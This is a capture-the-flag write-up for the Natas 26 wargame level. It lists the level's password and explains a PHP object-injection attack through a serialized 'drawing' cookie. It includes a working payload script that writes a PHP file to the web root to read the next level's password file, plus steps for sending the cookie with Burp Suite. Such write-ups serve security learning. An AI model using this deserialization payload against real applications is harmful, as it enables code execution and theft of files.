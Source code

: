 # username
natas26
# password
cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
# method of solve
We notice from the web app source code that the app serializes data and turn it into a cookie:
```
setcookie("drawing",base64_encode(serialize($drawing)));
```
> When we extract the cookie from the app after submitting data, we see that it contains the data from the app in serialized form
> That means that we can serialize an object that the application uses and inject PHP code that does what we want
```
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="HackerFrogs";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
        $this->logFile = "/var/www/natas/natas26/img/hackerfrogs.php";
    }
}

$hacker_object = new Logger();
echo base64_encode(serialize($hacker_object));

?>

```
After writing the file, use PHP on the terminal to convert the object into base64
```
php payload.php
```
Send this cookie `drawing` to the app via Burp Suite Repeater. Afterwards, we will find the password (printed twitce) at the /img/hackerfrogs.php endpoint

